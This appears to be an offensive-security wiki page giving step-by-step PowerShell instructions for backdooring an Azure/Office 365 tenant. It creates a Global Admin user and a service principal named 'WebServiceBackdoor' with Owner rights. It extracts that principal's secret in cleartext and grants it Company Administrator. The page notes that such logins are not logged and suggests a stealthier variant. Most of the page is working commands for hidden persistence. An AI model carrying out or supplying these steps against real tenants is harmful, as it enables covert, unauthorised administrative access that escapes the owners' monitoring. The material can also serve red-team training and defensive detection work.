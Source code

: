 # Service Principal Backdoor

## Service Principal Backdoor

Almost 200 SPN enabled by default on O365.

Service Principal are just account like any other accounts : can login using login/password.

**-** To create a Service Principal, a Global Admin(ie company admin account) must be used.

\- Service Principal login attempt are not logged on the interface:  just perfect for a backdoored account !

#### Global Admin account

* Create a new user and add a Global Admin role on it :

![](../../../../../.gitbook/assets/13c7afa4319d4d6fb1682ef0bc8f0706.png)

![](../../../../../.gitbook/assets/553697568c11436d884518a673810b2d.png)

* Then on the subscription IAM menu , add this account as the subscription owner

![](../../../../../.gitbook/assets/08c59ce714664727be919ec4652eccfb.png)

### Create a Service Principal

* Import the modules

```csharp
PS C:\Users\b3v1l\Desktop>Import-Module az PS C:\Users\b3v1l\Desktop> Import-Module MSOnline
```

* Login with the Global Admin account

```csharp
$cred = Get-Credential
```

![](../../../../../.gitbook/assets/2e2d9bbfcff64b3c8334e05e12310d88.png)

Then connect using the following commands

```csharp
Connect-AzAccount -Credential $cred 
Connect-MsolService -Credential $cred
```

![](../../../../../.gitbook/assets/b5704740761e4050a485754896a0e71f.png)

* Get the subscription ID&#x20;

```csharp
Get-AzSubscription
```

* In case of multi subscription in the same tenant, we can set the subscription ID using the following command :

```csharp
Set-AzContext -SubscriptionId REDACTED
```

![](../../../../../.gitbook/assets/aec92c67eaee4299ade0e94efc02ffbf.png)

* Create a new SPN
  * **Display** name will be listed on the **webconsole**.
  * ApplicationID = **username**

```csharp
$spn = New-AzAdServicePrincipal -DisplayName "WebServiceBackdoor" -Role Owner
```

![](../../../../../.gitbook/assets/06e1a9f3c4b845ab8657bf8d3b58602a.png)

* Get a unsecure SPN password (cleartext)

```csharp
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
```

![](../../../../../.gitbook/assets/1b9674db1b1b46d0a93f30104e0aea41.png)

#### Set up an Admin Role on the SPN

```csharp
$sp = Get-MsolServicePrincipal -AppPrincipalId REDACTED
$role = Get-MsolRole -RoleName "Company Administrator"
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
```

![](../../../../../.gitbook/assets/60f14a3aa8db4c3da700713f96accf76.png)

* List Global Admin accounts

```csharp
Get-MsolRoleMember -RoleObjectId $role.ObjectId
```

![](../../../../../.gitbook/assets/f8e5dc266be64f0e93df303a81df319a.png)

### Login with the SPN account

```csharp
Import-Module Az $cred = Get-Credential
```

![](../../../../../.gitbook/assets/29da69bcc7a04a2b8ae63386cd108667.png)

```csharp
Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
```

![](../../../../../.gitbook/assets/c5c806a281ae47a9af896c757ef4c700.png)

#### Note:

This can be noisy ...

A better way will be to add the SPN to the "User Account Administrator" group. This will allow the SPN to create new accounts to authenticate.

